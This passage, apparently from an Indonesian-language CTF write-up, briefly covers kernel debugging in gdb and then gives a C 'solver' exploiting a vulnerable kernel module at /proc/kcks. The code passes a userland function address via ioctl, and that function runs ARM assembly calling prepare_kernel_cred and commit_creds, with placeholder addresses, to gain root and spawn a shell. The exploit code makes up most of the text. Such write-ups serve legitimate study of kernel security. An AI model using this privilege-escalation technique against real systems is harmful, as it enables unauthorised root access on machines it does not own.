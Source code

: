 untuk melakukan dynamic analysis pada kernel cukup berbeda dengan binary userland. Di kernel kita hanya bisa menggunakan `si` dan jika tidak ingin debug suatu fungsi kita bisa melanjutkanya dengan `finish` supaya kembali ke asm instruction yang ingin kita debug.

## Solver

Untuk mengeksploitasi vulnerable kernel module kita bisa menggunakan solver berikut :

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <stdlib.h>
#include <signal.h>

void payload(void)
{        
        if (getuid() == 0) {
                write(1, "start\n", 6);
                system("sh");
                write(1, "over\n", 5);
        } else {
                puts("failed to get root. How did we even get here?");
        }

        _exit(0);
}

long rip;

void shell(void){
    
    asm(
      "MOV     R0, #0;"
      "BL     0xaaaaaaaa;" // addr prepare_kernel_cred
      "BL     0xbbbbbbbb;" // addr commit_cred
      "MSR    CPSR_c,#0x40000010;"
      "BL 0xcccccc;" // addr payload()
    );
}

typedef struct req_userland{
    unsigned long address;
}req_userland;

int main(){
  int fd;
  req_userland uland;
  fd = open("/proc/kcks",O_RDWR);
  uland.address = &shell;
  printf("addres uland @ 0x%x\n", &uland);
  printf("value of uland 0x%x \n", uland);
    
 ioctl(fd, 0, &uland);
 
  payload();
 return 0;
}


```
